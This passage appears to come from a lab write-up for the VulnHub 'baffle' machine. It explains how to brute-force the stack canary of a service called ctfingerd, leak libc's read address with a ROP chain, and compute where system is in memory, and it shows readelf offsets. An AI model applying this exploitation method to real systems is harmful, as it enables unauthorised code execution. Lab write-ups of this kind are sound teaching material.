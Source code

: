 Screenshot of the stack canary check and the fact that there is no return on fail:

![binaryninja](/img/vulnhub_dc416_baffle/binaryninja_ctfingerd_canary.png)

Here is a screenshot showing the `main` function printing out `---\n` after `query_user` returns:

![binaryninja](/img/vulnhub_dc416_baffle/binaryninja_ctfingerd_main_return.png)

We first try to append one byte after the maximum length of our buffer resulting in an overwrite of the first byte of the stack canary. If we found a correct byte the main process returns `---\n` and we can proceed with the next byte.

After we have the correct stack canary we can continue with exploitation to get code execution. The binary is dynamically compiled and only contains references to `read`, `write` and other libc functions but no `system`.

As the address on the stack right after the canary is the return address we have control over where to forked process returns.

The binary contains a `PLT (Procedure Linkage Table)` and a `GOT (Global Offsets Table)`. What they are for in detail can be read up [here](https://www.technovelty.org/linux/plt-and-got-the-key-to-code-sharing-and-dynamic-libraries.html). As we have the `write` function available and the program prints out it's file descriptor on every connect we can craft a ROP chain to write the effective libc address of `read` obtained from `GOT` to the file descriptor (we could use any of the available `GOT` stubs). After leaking the address we can calculate the exact memory location of `system`, prepare the parameters and jump to this address.

We can copy the libc binary from the machine using our SSH access and get the offset from `read` and calculate libc's base address.

```
bob@baffle:~/binz$ ldd ctfingerd
	linux-vdso.so.1 (0x00007ffc517b9000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f5cbc719000)
	/lib64/ld-linux-x86-64.so.2 (0x00007f5cbcac4000)
bob@baffle:~/binz$ ls -al /lib/x86_64-linux-gnu/libc.so.6
  lrwxrwxrwx 1 root root 12 Sep  5 02:09 /lib/x86_64-linux-gnu/libc.so.6 -> libc-2.19.so
```

To calculate the offsets we first need to get the location of the `read` and the `system` function.
```
root@kali:~/baffle# readelf -s libc-2.19.so | grep read@
   534: 00000000000dbb90    90 FUNC    WEAK   DEFAULT   12 __read@@GLIBC_2.2.5
   657: 0000000000074890    27 FUNC    GLOBAL DEFAULT   12 _IO_file_read@@GLIBC_2.2.5
   883: 00000000000dbb90    90 FUNC    WEAK   DEFAULT   12 read@@GLIBC_2.2.5
  1082: 00000000000df390  1411 FUNC    GLOBAL DEFAULT   12 fts_read@@GLIBC_2.2.5
  1175: 00000000000e8900    31 FUNC    GLOBAL DEFAULT   12 eventfd_read@@GLIBC_2.7
  1572: 000000000006a460   320 FUNC    WEAK   DEFAULT   12 fread@@GLIBC_2.2.5
  2018: 00000000000da3a0    96 FUNC    WEAK   DEFAULT   12 pread@@GLIBC_2.2.5
  2134: 000000000006a460   320 FUNC    GLOBAL DEFAULT   12 _IO_fread@@GLIBC_2.2.5
root@kali:~/baffle# readelf -s libc-2.19.so | grep system@
   577: 0000000000041490    45 FUNC    GLOBAL DEFAULT   12 __libc_system@@GLIBC_PRIVATE
  1337: 0000000000041490    45 FUNC    WEAK   DEFAULT   12 system@@GLIBC_2.2.5
```

So the `read` function is located at offset `0x00000000000dbb90` and `system` at offset `0x0000000000041490`. We now need to subtract the `read` value from the leaked libc address to get the base address of libc in memory. If we then add `0x0000000000041490` to the calculated base address we get the exact location of `system` on the target machine.

